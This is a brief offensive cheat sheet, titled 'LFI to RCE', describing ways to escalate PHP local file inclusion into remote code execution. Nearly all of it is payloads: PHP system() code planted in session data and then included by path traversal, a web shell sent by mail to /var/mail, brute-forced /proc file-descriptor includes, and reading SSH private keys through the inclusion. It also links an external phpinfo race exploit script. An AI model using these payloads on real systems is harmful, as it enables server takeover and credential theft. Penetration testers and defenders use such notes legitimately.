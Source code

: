 # LFI to RCE

### Php sessions method <a id="php-sessions-method"></a>

```bash
#Check if the website use PHP
SESSIDSet-Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27; path=/
Set-Cookie: user=admin; expires=Tue, 30-Jun-2020 10:25:29 GMT; path=/; httponly

​#In php sessions are store into /var/lib/php5/sess_PHPSESSID files
/var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27.
user_ip|s:0:"";loggedin|s:0:"";lang|s:9:"en_us.php";win_lin|s:0:"";user|s:6:"admin";pass|s:6:"admin";​

#Set the cookie to <?php system("whoami"); ?>
login=1&user=<?php system("whoami");?>&pass=password&lang=en_us.php​

#Use the LFI to include the PHP session file
login=1&user=admin&pass=password&lang=/../../../../../../../../../var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm2​
```

### Email method <a id="email-method"></a>

```bash
#Send a mail to internal account (user@localhost) containing:
<?php echo system($_REQUEST["cmd"]); ?>
#Access to the mail (/var/mail/USER&cmd=whoami)
```

### /proc/\*/fd/\* method <a id="proc-fd-method"></a>

```bash
#Upload a lot of shells
http://web.com/index.php?page=/proc/$PID/fd/$FD
#$PID = PID of the proccess (can be bruteforced)
#$FD = filedescriptor (can be bruteforced)
```

### Ssh method <a id="ssh-method"></a>

```bash
#Check which user is being used (/proc/self/status - /etc/passwd)
/home/hax0r/.ssh/id_rsa #hax0r = User is being used
```

### Phpinfo\(\) method <a id="phpinfo-method"></a>

To exploit this you need: page where phpinfo\(\) is displayed, "file\_uploads=on" and the server has to be able to write in "/tmp" directory.

{% embed url="https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/File%20Inclusion/phpinfolfi.py" %}



